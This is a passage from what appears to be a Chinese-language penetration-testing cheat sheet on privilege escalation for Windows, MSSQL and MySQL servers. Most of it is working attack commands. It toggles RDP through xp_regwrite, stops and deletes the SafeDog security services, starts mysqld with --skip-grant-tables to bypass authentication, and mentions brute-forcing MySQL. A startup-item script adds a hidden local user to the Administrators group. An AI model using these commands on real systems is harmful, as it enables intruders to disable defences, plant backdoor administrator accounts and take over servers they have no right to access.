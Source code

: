     ```mssql
    关闭3389
    exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',1;
    ```
  * （3）创建用户
  * （4）权限提升
    ```cmd
    system权限的情况下：
    net stop "safedog guard center" /y
    net stop "safedog update center" /y
    net stop "safedogguardcenter" /y
    ```
    绕过安全狗：
    ```cmd
    删除安全狗服务：
    sc stop "SafeDogGuardCenter"
    sc config "SafeDogGuardCenter" start=disabled
    sc delete "Safedogguardcenter"
    
    sc stop "SafeDogupdateCenter"
    sc config "SafeDogUpdateCenter" start=disabled
    sc delete "SafedogUpdatecenter"
    
    sc stop "SafeDogCloudHeler"
    sc config "SafeDogCloudHeler" start=disabled
    sc delete "SafeDogCloudHeler"
    ```
    

### 【windows MYSQL提权】

* **udf提权**
  * 原理：通过root权限导出udf.dll到系统目录下，可以通过udf.dll调用执行cmd
  * （1）查看网站源码里面数据库配置（inc,conn,config.sql,common,data等）
  * （2）查看数据库安装路径下的user.myd  (/data/mysql/)下载，本地替换
    ```mysql
    mysqld --skip-grant-tables 跳过验证
    mysql.exe -uroot    进入MySQL
    ```
  * （3）暴力破解 mysql密码破解 3306端口入侵

* **启动项提权（不常用，容易被拦截）**
  * （1）查看我们进入数据库中有些什么数据表
    ```mysql
    mysql>show tables;
    ```
    默认的情况下，test中没有任何表的存在。
  * （2）在TEST数据库下创建一个新的表；
    ```mysql
    mysql>create table a (cmd text);
    ```
    好了，我们创建了一个新的表，表名为a，表中只存放一个字段，字段名为cmd，为text文本。
  * （3）在表中插入内容
    ```mysql
    mysql>insert into a values ("set wshshell=createobject (""wscript.shell"")");
    mysql>insert into a values ("a=wshshell.run (""cmd.exe /c net user 1 1 /add"",0)");
    mysql>insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup Administrators 1 /add"",0)");
    ```
    >注意双引号和括号以及后面的“0”一定要输入！我们将用这三条命令来建立一个VBS的脚本程序！
